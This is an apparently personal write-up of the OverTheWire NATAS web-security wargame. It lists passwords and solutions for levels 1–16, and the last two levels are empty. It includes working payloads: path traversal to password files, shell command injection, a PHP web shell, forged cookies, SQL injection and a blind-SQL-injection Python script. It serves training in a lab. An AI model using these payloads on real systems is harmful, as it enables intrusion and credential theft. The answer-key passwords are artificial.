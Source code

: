 NATAS-Over The Wire
===================

level-1:
-------
	password: gtVrDuiDfck831PqWsLEZy5gyDz1clto
	solution: look the page source
level-2:
--------
	password: ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi
	solution: looking athe pagesource,right-clicking is blocked so we have to use ctrl+u key combination to view page-source 
level-3:
--------
	password: sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14
	solution: looking trough the page source we find a image link ``files/pixel.png`` ,when we look at the ``/files`` dir-listing is enabled 	there is user.txt and you can find the password inside that file 

level-4:
--------
	password: Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ
	solution: look at the robots.txt you can find ``/s3cr3t/`` when we go to that we can see a user.txt and we can see the password inside that file
	
level-5:
-------
	password: iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq 
	solution: we have to change the Referer header to ``http://natas5.natas.labs.overthewire.org/``
level-6:
--------
	password: aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1
	solution: we want to change the cookiee "loggedin" from 0 to 1.

level-7:
--------
	password: 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9 
	solution: here we want to pass the correct secret,by looing into the "view sourcecode" we can see the php source-code and in that it is including ``includes/secret.inc`` to the page so i browsed to that page and in the source of the page we can find the secret
	
level-8:
-------
	password: DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe 
	solution: LFI,pyaload to the page parameter ``/../../../etc/natas_webpass/natas8``
level-9:
-------
	password: W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl 
	solution: looking through the source of the page our input is passed to a ``encodeSecret`` function and it compares to a string in the code so we just have to reverse the function , take that string and then do hex2bin() and then strrrev() and then base64_decode(), and we will get the serect
	
level-10:

	password: nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
	solution: by looking through the php sourcecode we can see that our input is passed into passthru() finction which will exicute the grep command ,so we can have os command injection vulnerablity here and just by putting ``;`` after that what commant we give will be exicuted on the server 
	payload: ; cat /../../../etc/natas_webpass/natas10
	
level-11:

	password:  U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
	solution: here there are some fileter so we cannot directly inject commands,so we can use the grep command to show all the text in ``/../../../etc/natas_webpass/natas10`` file
	payload: .* ../../../../etc/natas_webpass/natas11

level-12:

	password: EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3 
	solution: when we view the php  source code of the page ,it xor encrypting the jason encoded "showpassword"=>"no", "bgcolor"=>"#ffffff" and then base64 endcoded and store it as cookie ,it is checking that "showpassword" value is "yes" only then we can see the password,so we can decode the cookie using the same function to get the xor key and change the ``"showpassword"=>"yes" in that arry,then xor encrypt and base64 encode and put it as the cookie data value
	final payload: ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK(set this as the data cookie value)

level-13:

	password: jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY  
	solution: in the website there is an upload function and we can upload a php file ,but the filename and extension is generated by the webapp ,we can change the extention using burp suite
	final php code:<?php system("cat /../../../../etc/natas_webpass/natas13"); ?>

level-14:

	password:  Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1
	solution:  here it cheks for an image type so we can add some magic bytes of the jpeg files to pass that check 
	
level-15:

	password: AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J
	solution: sql injection
	payload :   ``" or 1=1 --+``(put it in the input feild)
	
level-16:

	password: WaIHEacj63wnNIBROHeqi3p9t0m5nhmh
	solution: here blind sql injection is possible , it check for the username exists ,we can see that nata16 exists so we want to find the password of natas16
	python exploit:
	```python
			#!/usr/bin/python3

			import requests
			import string


			req=requests.Session()
			url='http://natas15.natas.labs.overthewire.org/index.php'
			auth={'Authorization': 'Basic bmF0YXMxNTpBd1dqMHc1Y3Z4clppT05nWjlKNXN0TlZrbXhkazM5Sg=='}
			req.headers.update(auth)
			r=req.post(url,headers=auth)
			p="natas16 \" and ord(substr(password,{},1))={}#"
			chrs=string.ascii_letters+string.digits
			password=''
			for j in range(1,33):
			    for i in chrs:
				i=ord(i)
				payload=p.format(j,i)
				data={"username":payload}
				r1=req.post(url,data=data)
				if "This user exists." in r1.text:
				    password+=chr(i)
				    break
			
			print(password)

	```

level-17:

	password:  
	solution:   
level-18:

	password:  
	solution:  	
	
	
	
	
	
	

